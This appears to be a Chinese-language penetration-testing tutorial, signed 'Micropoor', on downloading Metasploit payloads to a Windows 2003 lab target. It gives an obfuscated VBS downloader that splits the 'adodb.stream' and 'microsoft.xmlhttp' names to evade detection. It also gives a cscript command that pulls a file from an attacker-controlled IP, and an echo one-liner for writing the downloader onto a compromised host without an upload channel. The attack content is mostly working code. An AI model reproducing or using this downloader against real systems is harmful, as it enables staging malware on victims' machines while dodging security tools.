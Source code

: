 一次 msf 完整的流程离不开目标机的 payload 下载与执行。而针对不同环境目标，考虑或者选择不同方式的 payload 下载与执行。如 webshell 下，注入点下。smb 下等。而针对不同的实际环境，来做最好的选择。

既然本季开始专门针对 windows 下的 payload 下载讲解，那么就需要考虑到目标机的系统版本，是windows2000，windows 2003，或者是更高的版本如 windows 2016等。

无论是哪个版本的windows系列，都是支持vbs的。

**靶机：**windows 2003  

### vbs：  

保存downfile.vbs
```visual basic
set a=createobject("adod"+"b.stream"):set
w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2
```

### 命令行下执行：
```bash
cscript downfile.vbs http://192.168.1.115/robots.txt C:\Inetpub\b.txt
```

![](media/7f46749ce580dd58f217f4757f5f6529.jpg)

往往在实战中，没有上传的方便条件，尤其是目标机是 windows，只有 echo 方式来写入 vbs。

### 命令行下执行：
```bash
echo set a=createobject(^"adod^"+^"b.stream^"):set
w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2 >>downfile.vbs
```  

**优点：**支持windows全版本系列  
**缺点：**对https不友好

>   Micropoor
